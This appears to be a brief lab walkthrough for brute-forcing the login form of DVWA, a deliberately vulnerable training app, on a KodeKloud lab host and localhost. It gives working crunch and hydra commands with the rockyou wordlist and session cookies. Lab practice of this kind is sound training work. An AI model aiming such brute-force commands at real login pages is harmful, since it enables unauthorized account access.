 https://techbeatz.co.uk/cyber-security/dvwa-task-1-brute-force-using-hydra-developer-tools/

```
git clone https://github.com/jon94/dvwa-dd.git
```

Replace DD API KEY

```
docker compose up -d --force-recreate --no-deps --build
```

Login to wherever it is hosted in kodekloud to obtain the URL as well as the PHP SessID. These are needed for the bruteforce.

cd to /Tools/wordlists/

Generate username using crunch
- Generate between 5 - 8 letters from letters been a-n and output in usernames.txt
```
crunch 5 8 abcdefghijklmn -o usernames.txt
```
For password, we will use rockyou.txt as list

```
hydra -f -S -l admin -P rockyou.txt 4280-port-708f1b5f85a94714.labs.kodekloud.com http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=ebd3c9ed3e7f420323aaa061b3431fb4"
```

For localhost

```
hydra -f -s 4280 -l admin -P ../rockyou.txt localhost http-form-get "/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:H=Cookie: security=low; PHPSESSID=1de6c52c71ea064025e336c8124aa8e5:F=Username and/or password incorrect."
```

For local docker compose

```
hydra -f -s 4280 -l admin -P ../rockyou.txt localhost http-form-get “/vulnerabilities/brute:username=^USER^&password=^PASS^&Login=submit:H=Cookie: security=low; PHPSESSID=ac2efa7619deb651d3525da4c6371b5d:F=Username and/or password incorrect.”
```
